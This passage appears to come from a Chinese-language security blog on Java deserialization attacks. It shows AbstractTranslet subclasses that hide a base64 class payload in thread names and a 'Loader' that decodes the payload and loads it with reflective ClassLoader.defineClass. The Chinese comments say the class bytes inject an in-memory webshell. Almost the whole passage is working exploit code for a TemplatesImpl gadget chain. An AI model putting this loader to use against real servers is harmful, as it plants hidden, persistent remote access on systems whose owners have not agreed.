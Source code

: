 ```java
                //String Payload3 = "";
                //String Payload4 = "";

                z.setName(z.getName()+Payload1);
            }
         }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```

```java
public class Loader extends AbstractTranslet{
    public Loader() throws Exception{
        ThreadGroup a = Thread.currentThread().getThreadGroup();
        Field v2 = a.getClass().getDeclaredField("threads");
        v2.setAccessible(true);
        Thread[] o = (Thread[]) v2.get(a);
        for (int i = 0; i < o.length; ++i) {
            Thread z = o[i];
            //使用ClassLoader类的defineClass方法加载具有Qwzf标识的Thread name中的Payload
            if (z.getName().contains("Qwzf")) {
                byte[] bytes2 = new sun.misc.BASE64Decoder().decodeBuffer(z.getName().replaceAll("Qwzf", ""));
                //反射获取ClassLoader类的defineClass方法
                java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{byte[].class, int.class, int.class});
                defineClassMethod.setAccessible(true);
                //反射调用defineClass方法加载Thread name中的注入内存马的类字节码
                Class clazz = (Class) defineClassMethod.invoke(Loader.class.getClassLoader(), bytes2, 0, bytes2.length);
                clazz.newInstance();
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```



另外还有一个Gzip解压后defineClass加载，但是那么大的Gzip字符串没什么鸟用。
